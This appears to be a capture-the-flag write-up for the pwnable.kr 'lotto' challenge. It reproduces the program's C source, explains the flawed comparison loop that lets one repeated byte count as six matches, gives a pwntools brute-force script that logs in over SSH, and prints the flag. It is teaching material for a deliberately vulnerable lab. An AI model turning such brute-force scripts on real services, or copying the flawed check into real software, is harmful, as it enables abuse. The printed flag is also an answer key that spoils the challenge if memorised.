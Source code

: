 # lotto

## Description

lotto - 2 pt

>Mommy! I made a lotto program for my homework. <br>
>do you want to play? <br> <br> <br>
> ssh lotto@pwnable.kr -p2222 (pw:guest)


## Solution

### Exploit

In this challenge, we are presented with a lotto program. Our goal is to win the lotto and get flag:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){
	
	int i;
	printf("Submit your 6 lotto bytes : ");
	fflush(stdout);

	int r;
	r = read(0, submit, 6);

	printf("Lotto Start!\n");
	//sleep(1);

	// generate lotto numbers
	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1){
		printf("error. tell admin\n");
		exit(-1);
	}
	unsigned char lotto[6];
	if(read(fd, lotto, 6) != 6){
		printf("error2. tell admin\n");
		exit(-1);
	}
	for(i=0; i<6; i++){
		lotto[i] = (lotto[i] % 45) + 1;		// 1 ~ 45
	}
	close(fd);
	
	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}

}

...
```

The game is simple. We have to submit 6 bytes and the program will generate 6 random bytes in the range [1,45]. If we get 6 matches we win and get the flag!

The key observation here is we don't need to guess *all* 6 bytes. We can guess only 1 byte and get the flag. The reason is that the program compares each byte of our input with each all of the generated bytes. So if we guess 1 byte correctly, we will get 6 matches.

We can write a simple bruteforce script that guesses the same byte for all 6 bytes and checks if we get 6 matches:

```python
from pwn import *

con = ssh('lotto', 'pwnable.kr', port=2222, password='guest')

p = con.process('./lotto')

while True:
    p.recvuntil(b'3. Exit\n')
    p.sendline(b'1')
    p.recvuntil(b'Submit your 6 lotto bytes : ')
    p.sendline(b'######')
    p.recvuntil(b'Lotto Start!\n')
    
    res = p.recvline().decode()
    
        
    if 'bad' not in res:
        print(res)
        break
```

Running the script gives us the flag:

```
sorry mom... I FORGOT to check duplicate numbers...
```